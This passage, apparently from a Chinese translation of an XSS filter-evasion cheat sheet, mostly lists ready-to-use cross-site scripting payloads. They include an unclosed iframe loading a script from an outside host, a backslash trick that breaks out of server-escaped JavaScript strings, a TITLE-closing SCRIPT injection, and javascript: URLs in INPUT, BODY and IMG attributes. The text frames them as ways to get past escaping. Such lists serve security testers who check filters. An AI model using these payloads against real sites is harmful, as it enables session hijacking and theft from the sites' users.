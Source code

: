使用一个开始尖括号(<)在向量结尾代替一个关闭尖括号（>）会有不同的影响在 Netscape Gecko 的渲染中。 Without it, Firefox will work but Netscape won't。

```
<iframe src=http://ha.ckers.org/scriptlet.html <

```

* * *

转义javascript中的转义
----------------

当一个应用程序是输出用户自定义的信息到javascript代码中，例如： <SCRIPT>var a="$ENV{QUERY_STRING}";</SCRIPT>。如果你想插入你自己的javascript代码进入它，但是服务器转义了其中的某些引号，这时你需要通过转义被转义的字符来绕过它。从而使最终的输入代码类似于<SCRIPT>var a="\";alert('XSS');//";</SCRIPT> 。最终\转义了双引号前被服务器添加的\，而双引号则不会被转义，从而触发xss向量。xss定位器使用这个方法。

```
\";alert('XSS');//

```

* * *

闭合title标签
---------

这是一个简单的xss向量，可以引入一个恶意的xss攻击。_译者注：titile标签内部不支持html代码，所有内容会被自动转义为普通字符。_

```
</TITLE><SCRIPT>alert("XSS");</SCRIPT>

```

* * *

INPUT image
-----------

```
<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">

```

* * *

BODY image
----------

```
<BODY BACKGROUND="javascript:alert('XSS')">

```

* * *

IMG DYNSRC(视频剪辑)
----------------

```
<IMG DYNSRC="javascript:alert('XSS')">

```
